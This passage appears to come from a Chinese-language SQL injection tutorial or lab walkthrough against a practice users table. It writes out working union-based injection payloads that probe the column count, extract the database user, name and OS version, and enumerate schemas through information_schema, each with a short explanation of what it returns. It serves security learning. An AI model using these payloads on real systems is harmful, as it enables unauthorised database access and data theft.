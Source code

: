 ~~~
SELECT first_name, last_name FROM users WHERE user_id = '1' order by 2#'
~~~



~~~
1' order by 2#
~~~

![image-20230315134819103](D:\Program Files\Typora\images\image-20230315134819103.png)

![image-20220218140411546](D:\Program Files\Typora\images\image-20220218140411546.png)



接下来利用联合查询，查看一下要查询的数据会被回显到哪里。

~~~
1' and 1=2 union select 1,2 #
~~~

First name处显示结果为查询结果第一列的值，surname处显示结果为查询结果第二列的值，利用内置函数`user()`,及`database()`，`version()`注入得出连接数据库用户以及数据库名称：

![image-20230315143603743](D:\Program Files\Typora\images\image-20230315143603743.png)



根据用户名和数据库两个函数 查出当前使用的数据库和数据库的用户名

~~~
1' and 1=2 union select user(),database() #
~~~



![image-20220218141917199](D:\Program Files\Typora\images\image-20220218141917199.png)

获得操作系统信息

~~~
1' and 1=2 union select 1,@@global.version_compile_os from mysql.user #
~~~

![image-20220218141958893](D:\Program Files\Typora\images\image-20220218141958893.png)

information_schema 库用于存储数据库**元数据**(关于数据的数据)，例如数据库名、表名、列的数据类型、访问权限等。

`information_schema` 库中的`SCHEMATA`表存储了数据库中的所有库信息，`TABLES`表存储数据库中的表信息，包括表属于哪个数据库，表的类型、存储引擎、创建时间等信息。`COLUMNS` 表存储表中的列信息，包括表有多少列、每个列的类型等



利用`information_schema` 库中的`SCHEMATA`  **查询数据库名字**

select 1,schema_name from information_schema.schemata   把所有数据库名字弄出来做一个罗列

~~~
1' and 1=2 union select 1,schema_name from information_schema.schemata #
~~~

![image-20230315135629025](D:\Program Files\Typora\images\image-20230315135629025.png)
